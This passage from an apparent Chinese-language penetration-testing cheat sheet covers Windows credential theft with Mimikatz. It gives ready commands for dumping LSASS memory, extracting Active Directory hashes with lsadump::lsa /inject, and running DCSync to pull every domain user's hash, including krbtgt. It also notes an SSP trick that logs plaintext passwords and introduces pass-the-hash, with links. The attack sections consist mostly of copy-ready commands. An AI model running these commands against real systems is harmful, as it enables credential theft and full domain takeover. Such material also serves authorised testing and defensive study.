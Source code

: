 等待系统重启后，在 c:\windows\system32 生成文件 kiwissp.log，记录当前用户的明文口令

---

## NTDS.DIT

使用 Mimikatz 提取 Active Directory hash
```bash
privilege::debug
mimikatz lsadump::lsa /inject exit
sekurlsa::minidump c:\temp\lsass.dmp      使用 Mimikatz 转储 LSASS 内存
sekurlsa::logonpasswords
```

### DCSync

Mimikatz 有一个功能（dcsync），利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码哈希值。

DCSync 是 mimikatz 在 2015 年添加的一个功能，由 Benjamin DELPY gentilkiwi 和 Vincent LE TOUX 共同编写，能够用来导出域内所有用户的 hash

利用 DRS(Directory Replication Service) 协议通过 IDL_DRSGetNCChanges 从域控制器复制用户凭据

该技术消除了直接从域控制器进行认证的必要性，因为它可以从域管理员环境中属于域的任意系统执行。

运行 DCSync 需要特殊权限。管理员，域管理员或企业管理员以及域控制器计算机帐户的任何成员都能够运行 DCSync 来提取密码数据。请注意，只读域控制器不仅可以默认为用户提取密码数据。
```bash
privilege::debug
lsadump::dcsync /domain:ffffffff0x.com /all /csv
```

通过使用 /user 参数指定域用户名，Mimikatz 会将该指定用户的所有帐户信息转储包括哈希值。
```bash
lsadump::dcsync /domain:ffffffff0x.com /user:krbtgt
lsadump::dcsync /domain:ffffffff0x.com /user:test
```

可以直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 密码哈希
```bash
privilege::debug
lsadump::lsa /inject
```

**特权用户下**
```
runas /noprofile /user:test@ffffffff0x.com cmd
mimikatz.exe privilege::debug "lsadump::dcsync /domain:ffffffff0x.com /all /csv" exit
```

---

## PTH

在对 Windows 系统进行渗透测试过程中，如果获取目标机器的系统权限，则可以通过 hashdump 的方式获取目标机器历史登录信息，包括用户名和用户明文密码或者用户 hash，如果无法直接获取目标用户明文密码，则可以通过 pth 的方式远程登录目标机器

**相关文章**
- [mimikatz-pth with rdp](http://rtshield.top/2019/08/31/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7-mimikatz-pth_with_rdp/)
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth
- [Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)
- [攻击3389之PTH](https://mp.weixin.qq.com/s/mVSc5geSYwncpOda1OT-0g)
